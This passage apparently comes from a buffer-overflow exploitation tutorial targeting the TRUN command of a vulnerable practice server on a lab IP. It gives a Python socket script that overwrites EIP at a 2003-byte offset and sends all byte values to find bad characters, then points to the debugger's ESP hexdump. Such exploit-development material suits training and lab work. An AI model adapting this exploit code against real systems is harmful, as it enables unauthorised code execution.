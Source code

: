 To test for Bad Characters we simply trow every possible character in hex format at the application and see if any of act up.

```python
#!/usr/bin/python

import socket,sys

address = '192.168.136.130'
port    = 9999

command = b'TRUN /.:/'
offset  = 2003

bad_chars = [0x00]
chars = b""
for i in range(0x00,0xFF+1):
    if i not in bad_chars:
        chars += bytes([i])

buff  = b""         # empty byte var
buff += b"A"*offset # junk
buff += b"B"*4      # EIP
buff += b"" + chars # test for chars

try:
    print(f'[+] Sending buffer: {str(len(buff))} bytes')
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((address,port))
    s.recv(1024)
    s.send(b"TRUN /.:/%s" % buff)
except RuntimeError as err:
    print(f'[!] Unable to connect to the application. {err}')
    sys.exit(0)
finally:
    s.close()
```

Now right click on the ESP and show hexdump

![Follow in Dump](images/BO_show_hexdump.png)
